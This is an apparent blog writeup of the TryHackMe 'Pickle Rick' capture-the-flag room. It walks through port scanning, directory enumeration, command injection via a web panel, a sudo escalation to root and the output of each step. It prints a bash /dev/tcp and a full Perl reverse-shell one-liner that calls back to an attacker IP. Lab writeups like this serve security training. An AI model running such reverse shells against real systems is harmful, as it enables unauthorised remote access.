 ```yaml
---
layout: post
title: Pickle Rick Writeup
categories: [TryHackMe]
tags: [Command Injection, Web shell, Directory Enumeration, Dirsearch]
---
```


# Pickle Rick Walkthrough.
This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.
Check it out here: [TryHackMe](https://www.tryhackme.com/room/picklerick)

# ~$ Preface
  Hey there! I'll be honest this was the first time I used a web shell lol and it was indeed much fun, I'll walk you through how I went about it XD, funfact Rick&Morty has been my go-to fav cartoon since 2015, eyepatch morty is my buddy and I genuinely have a deep seated hatred for Jerry and his insipidity ;) but as always I'll be leaving hints before I drop the spoilers, and by spoilers I mean the answers lol just kidding you won't find glaring answers here buddy hehee
  ![image](https://images6.alphacoders.com/876/thumb-1920-876893.jpg)
  
# ~$ Hints 
- source page
- command injection?
- web shells
- directory enumeration(try a different directory busting wordlist)
- extensions.(.php)

A'ight so as always, a port scan first::
```
┌──(azazel㉿azazel)-[~/Tryhackme/PickleRick]
└─$ nmap -sC -sV 10.10.220.220 -Pn -vv -p 1-1024 -T4 -o nmap
Warning: The -o option is deprecated. Please use -oN
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-11 18:18 WAT
NSE: Loaded 155 scripts for scanning.
Initiating Connect Scan at 18:18
Scanning 10.10.220.220 [1024 ports]
Discovered open port 80/tcp on 10.10.220.220
Not shown: 1022 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 21:86:91:05:1b:b6:3c:1a:91:a3:6b:a6:fe:a3:28:b9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDOejy/mcAGAdwTSazZu0TOhmJzXnVoAlpDkpPFEnxBppNiIDf11gJkgAz/kNJ/Xzpy5/r4EcBm5VlyD1OHbgp4BB7/+XmWFLIiombdwcGEYrnXJ86DdY8JPu4enMn85mhi2eI8/QwHk5PmaIBufGk6YAdrAunR2T3UfZriuJB4MXQw4ElicxJ+EEuaaMirwhVx8p9i1HqC2c5U95N22y/CBDETIgGZHkZQkMC2HpHREbcs7tTPQdPbv9TSL7Ie0Tvdi6LFAMx2zZmfBprnAUT6DsNvRmu5uyGisQpw4STgwjPVJ/BJInFEHPS25Afv/2BVMfhX3af6yJQA4QPuBKJF
|   256 91:18:52:30:3e:b6:e0:29:0d:72:91:17:b7:64:05:03 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEehoL4UxfT2BMPVEAxmPHcDhmZhmzE1AD2zqGHtqgDLkdjKE3xMgqVle5l3DNb6D/44/pTyklMJWmPTTY9t8S0=
|   256 d2:1b:90:6d:32:2f:cb:0e:64:af:61:e7:60:34:95:96 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKcg2XsRFJ0X32sAAhVOLEn/LubUccaCEVVDQV6slCHD
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:18
Completed NSE at 18:18, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:18
Completed NSE at 18:18, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:18
Completed NSE at 18:18, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.34 seconds
```
Okay, just ssh and http hmph...

Straight up, I visited the site::
![image](/assets/img/posts/Rick&Morty/r&mLanding.png)

Found nothing but a message from rick in dire need of our help to revert back to human... Quickly I view the page source, always view the source! therein I find this commented out:
```
    Note to self, remember username!

    Username: R1ckRul3s   
 ```
 
 Okay Classic rick keeping hidden reminders for himself, I try the username on port 22 and bruteforce the creds with hydra and realized it could only be 2 things: apparently Rick's pass isn't in a wordlist OR the acquired username is not for ssh, while hydra was still trying I resort to my go-to dir enum tool, Dirsearch!:-)
fire her up and get these hidden directories:
 
 ```
 ┌──(azazel㉿azazel)-[~/Tryhackme/PickleRick]
└─$ dirsearch -u 10.10.220.220 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 30

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 4613

Output File: /home/azazel/.dirsearch/reports/10.10.220.220_22-04-11_18-52-02.txt

Error Log: /home/azazel/.dirsearch/logs/errors-22-04-11_18-52-02.log

Target: http://10.10.220.220/

[18:52:10] Starting: 
[18:52:19] 301 -  315B  - /assets  ->  http://10.10.220.220/assets/
[18:52:34] 200 -   1KB - /index.html
[18:52:40] 200 -  882B  - /login.php
[18:52:48] 200 -   17B  - /robots.txt
[18:52:50] 403 -  301B  - /server-status

Task Completed
                                        
```
 Nothing much only interesting directory is a login page and the robots.txt, checked that out to see any pages disallowed to be crawled and Instead see Rick's catch phrase
 
 ```
 
 Wub############ub
 
 ```
  ![image](https://media2.giphy.com/media/l41lI4bYmcsPJX9Go/giphy.gif?cid=790b76115528c812b615af1876ff62340969d6ac03f0e5bc&rid=giphy.gif&ct=g)
 
 Welp, we have a username and possibly a pass, but goes where exactly? Found a login page and try the creds there:
 
 ![image](/assets/img/posts/Rick&Morty/rick&mortyloginpage.png)
 
 And then we're greeted with an input field which accepts commands--Command Injection took advantage of this and tried to find and read all the ingredients but there is some sort of input filter that prevents us from reading files with cat, tail, head but not less and find lmao! all of what we need, hehee:
 ![image](/assets/img/posts/Rick&Morty/rick&mortyinputfilter.png)
 
 I could grab all the ingredients through this method but that's no fun! and it also felt somewhat restrictive and defeats the initial access idea.
 Now to upload a shell!

 ![iamge](/assets/img/posts/Rick&Morty/rick&mortydirlis.png)
 
 A classic Bash one liner would work::
```
bash -c >& /dev/tcp/ip/8888 0>&1
```
but I felt like exploring other shell one liners out of curiousity I resorted to trying out Perl, grabbed a Reverse shell one liner from [PentestMonkey](https://pentestmonkey.net/):

```
perl -e 'use Socket;$i="10.8.45.27";$p=8888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```
NB:: Adjust the parameters to receive the shell, you wouldn't to be sending me a shell, would you now?
 
We're in! and now to comfortably read the Sup3rS3cretPickl3Ingred.txt file

```
www-data@ip-10-10-60-92:/var/backups$ cat Sup3rS3cretPickl3Ingred.txt
mr. ###### hair
```
Found the second ingredient in Rick's Home directory::
```
www-data@ip-10-10-60-92:/home/rick$ cat second\ ingredients
1 #### tear
```

Checking sudo permissions, only to find as compensation and horrible security, the www-data user who we are logged in as has sudo permissions to execute EVERYTHING? sheesh!

```
www-data@ip-10-10-60-92:/home/rick$ sudo -l

Matching Defaults entries for www-data on ip-10-10-60-92.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-data may run the following commands on ip-10-10-60-92.eu-west-1.compute.internal:
    (ALL : ALL) ALL
```

To make ourselves root and grab the last ingredient::

```
www-data@ip-10-10-60-92:/home/rick$ sudo su
root@ip-10-10-60-92: cd /root; cat 3rd.txt
```
And that's it! We saved Rick and got to see jerry tears too --the joy:-)

Greetings, from [Rami3l](https://www.tryhackme.com/p/Rami3l).
